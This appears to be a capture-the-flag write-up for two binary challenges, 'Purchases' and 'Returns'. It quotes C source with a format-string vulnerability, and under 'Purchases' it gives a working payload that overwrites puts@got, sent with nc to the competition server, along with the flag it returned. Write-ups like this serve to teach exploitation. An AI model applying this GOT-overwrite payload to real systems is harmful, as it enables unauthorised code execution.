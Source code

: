 ## Purchases

We have the source and the binary, so we can inspect the source and immediately find a string format vulnerability
```
int main() {
   ...
	char item[50];
	printf("What item would you like to return? ");
	fgets(item, 50, stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("You don't have any money to buy ");
		printf(item);
		printf("s. You're wasting your time! We don't even sell ");
		printf(item);
		printf("s. Leave this place and buy ");
		printf(item);
		printf(" somewhere else. ");
	}
   ...
```

The function that we want to execute can be the following:
```
void flag() {
	system("/bin/cat flag.txt");
}
```

Then we inspected the binary and we find that there's the canary and either the stack is NX

### Solution
we used got overwrite, by overwritting the puts@got, than this last is called at the end of the main.
so knowing the format string behaviours, we inserted the following input

```
python -c "print '%4198838u%11\$n          \x18\x40\x40'" | nc shell.actf.co 19011   #actf{limited_edition_flag}
```


## Returns

We have the source and the binary, so we can inspect the source and immediately find a string format vulnerability
```
int main() {
   ...
	char item[50];
	printf("What item would you like to return? ");
	fgets(item, 50, stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("You don't have any money to buy ");
		printf(item);
		printf("s. You're wasting your time! We don't even sell ");
		printf(item);
		printf("s. Leave this place and buy ");
```